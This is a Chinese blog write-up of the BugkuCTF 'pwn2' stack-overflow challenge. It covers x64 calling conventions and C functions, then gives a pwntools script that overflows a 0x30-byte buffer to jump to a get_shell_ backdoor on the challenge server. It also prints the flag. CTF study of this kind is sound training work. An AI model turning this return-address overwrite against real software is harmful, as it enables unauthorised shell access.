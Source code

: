 <!--yml
category: 未分类
date: 2022-04-26 14:53:05
-->

# BugkuCTF-PWN题pwn2-overflow超详细讲解_彬彬有礼am_03的博客-CSDN博客_bugkupwn2

> 来源：[https://blog.csdn.net/am_03/article/details/119999626](https://blog.csdn.net/am_03/article/details/119999626)

## 解题思路

1）计算出get_shell_的地址偏移量
2）算出来之后就直接溢出到后门函数

## 知识点

## x64函数调用规则

解题之前我们先学下linux x64的函数调用规则。
x64机器在调用某个函数前，比如int func(int a, int b, int c, int d, int e, int f, int g, int h)，首先他会把前6个参数从左往右存入到寄存器rdi、rsi、rdx、rcx、r8、r9，其余参数存入到栈里，保存的顺序是从右往左入栈。比如abcdef会存入到寄存器里，然后一次入栈h、g。
保存完参数之后再把函数后面一条指令的地址入栈保存。
栈结构
![在这里插入图片描述](img/755b58257bddad6bb90d00bcdd638220.png)
上图就是一个函数的栈结构，上面是栈顶，下面是栈底，栈顶是低地址，栈底是高地址，read函数往栈里写数据是从栈顶往栈底写入

栈顶指针（寄存器）：rsp
栈底指针（帧指针）：rbp

## C语言知识点

**memset**
memset：可以方便的清空某个结构类型的变量或数组，作用是在一段内存块里填充某个给定的值，它是对较大的结构体或数组进行清零操作的一类最快方法，为string.h头文件里的函数，按字节对内存块进行初始操作
例：memset(buffer, 0, sizeof(buffer)) 给buffer清出一个sizeof（buffer）大小的空间，填充0，做数组初始操作工作。

**setvbuf**
为什么要使用setvbuf函数
如果你的内存足够大，可以把文件IO的BUF设置大一些，这样每次你用
fopen/fread/fwrite/fscanf/fprintf语句的时候，都会在内存里操作，减少内存到磁盘IO读写的操作次数，提高系统效率。
如果你的程序的功能涉及到类似数据库、视频、音频、图像处理等大量需要爆发式磁盘到内存的IO情况下，可以考虑setvbuf进行优化内存IO。
功 能: 把缓区与流相关

**puts()**
puts()函数用来向标准输出设备屏幕输出字符串并换行。
具体是把字符串输出到屏幕上，将‘\0’转换为回车换行。调用方式是：puts(str)。其里str是字符串数组名或者字符串指针。实际上，数组名就是指针。
puts() 输出更简洁、更方便。而且使用 puts() 函数连换行符 ‘\n’ 都省了，使用 puts() 显示字符串时，系统会自动在其后添加一个换行符，也就是说
printf("%s\n", name);和：puts(name)是等价的

**read():**
函数原型： int read(int fd,void *buf,int len);
功能：用于读取打开文件的内容
参数：int fd 为要读取的文件
void *buf 为要将读取的内容保存的缓冲区
int len 读取文件的长度
返回值：返回实际读取的字节数
read(0,&s,0x100uLL):读取s这个变量0x100个字节，即从外部读取0x100的数据到s里

## 解题流程

0、在Linux里打开文件，使用file命令查看文件类型
![在这里插入图片描述](img/a0268726584c87dbaab0415197bae0a1.png)
64位文件
checksec检查保护情况
![在这里插入图片描述](img/62c3b62ae77a37562fbabeb062525288.png)
未开启任何保护，尝试运行一下
![在这里插入图片描述](img/cad8586a6e43f6dcef4d3c8eecb44980.png)
1、使用IDA 64 Pro打开文件
查看主函数
![在这里插入图片描述](img/48715ae5c3ffc002dc1eace5e74cbf29.png)
通过观察这个程序的逻辑我们发现s这个变量申请了0x30个字节，但是下面read函数读取了s这个变量0x100个字节，所以存在栈溢出。
![在这里插入图片描述](img/0f5f67ac49361f0cdcb84c917a1f2ae9.png)
然后发现在main函数下面有一个get_shell_函数，双击下去发现这个函数的地址是0x400751，先把这个地址记下来。
![在这里插入图片描述](img/eb63411a7ac0b82f1a345bb97e8d3344.png)
下面就是在gdb里打开pwn2，然后创建随机字符，并运行。![在这里插入图片描述](img/0ee7e7aa6c9b0d2583c0634288ddbac2.png)
发现RBP段的字符被填充为bAA1AAGA，再利用这个字符计算出偏移量。
![在这里插入图片描述](img/bab258719ef00bff0d8fce09dde9c9a6.png)
![在这里插入图片描述](img/7ccdff79f7254ce532a1c3bfb0f1deb5.png)
然后根据偏移量写出脚本就可以了

```
from pwn import *

io = remote("114.67.246.176", 18766)   
payload = b'a' * (0x30 + 0x8) + p64(0x400751) 
io.recvline("say something?\n")   
io.send(payload)   
io.interactive() 
```

运行
![在这里插入图片描述](img/3f132a424187fcf347eb0f2f2d17af33.png)
得到flag{99kls08s6d5a73bcd}